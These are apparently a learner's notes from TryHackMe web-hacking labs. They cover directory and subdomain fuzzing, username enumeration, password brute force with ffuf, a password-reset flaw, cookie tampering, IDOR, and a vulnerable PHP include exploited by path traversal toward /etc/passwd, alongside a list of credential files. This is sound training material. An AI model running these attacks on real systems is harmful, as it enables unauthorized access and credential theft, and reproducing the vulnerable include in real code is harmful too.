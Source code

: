 ## Content Discovery
- Wappalyzer (https://www.wappalyzer.com/)
- The Wayback Machine (https://archive.org/web/)
- Automated Discovery https://github.com/danielmiessler/SecLists 
- ffuf,  “Fuzz Faster you Fool” 
- ``` user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://MACHINE_IP/FUZZ ```
- dirb 
- ``` user@machine$ dirb http://MACHINE_IP/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt ```
- gobuster
- ``` user@machine$ gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt ```

## Subdomain Enumeration
1. Certificate Transparency (CT) logs
- SSL/TLS Certificates. (https://crt.sh ; https://transparencyreport.google.com/https/certificates)
2. google search ```-site:www.tryhackme.com  site:*.tryhackme.com```
3. ``` dnsrecon -t brt -d acmeitsupport.thm ```
4. ``` ./sublist3r.py -d acmeitsupport.thm ```
5. private DNS server. "/etc/hosts" file (or c:\windows\system32\drivers\etc\hosts file for Windows users) 
6. ``` ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.123.130 ```
7. ``` ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.123.130 -fs {size} ``` -fs switch, which tells ffuf to ignore any results that are of the specified size.

## Authentication Bypass
**fuzz posibble exist usernames.**
- https://github.com/ffuf/ffuf
- ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.94.177/customers/signup -mr "username already exists" ```
-  -X argument specifies the request method.
-  -d argument specifies the data that we are going to send.
-  -H argument is used for adding additional headers to the request. setting the "Content-Type" to the webserver knows we are sending form data. 
-  -u argument specifies the URL we are making the request to.
-  -mr argument is the text on the page we are looking for to validate we've found a valid username.

**brute force**
- ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.2.151/customers/login -fc 200 ```
- -fc argument to check for an HTTP status code other than 200.

**logic flaw**
- ``` curl 'http://10.10.2.151/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm' ```
- the server send email to the address client posts

**cookie tempering**
- ``` curl -H "Cookie: logged_in=true; admin=true" http://10.10.2.151/cookie-test ```
- Hash crack website. https://crackstation.net/

## IDOR
-  Insecure Direct Object Reference

**find IDOR in Encode IDs**
- https://www.base64decode.org/; https://www.base64encode.org/ 

**find IDOR in Hashed IDs**
- https://crackstation.net/

## File Inclusion
common OS files:
- /etc/issue, /etc/profile, /proc/version, /etc/passwd,
- /etc/shadow, /root/.bash_history, /var/log/dmessage,
- /var/mail/root, /root/.ssh/id_rsa, /var/log/apache2/access.log
- C:\boot.ini

php function reason: https://www.php.net/manual/en/function.file-get-contents.php

Local File Inclusion (LFI)
```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
- Conquer: ``` include("languages/../../../../../etc/passwd%00").".php"); ``` %00 or 0x00


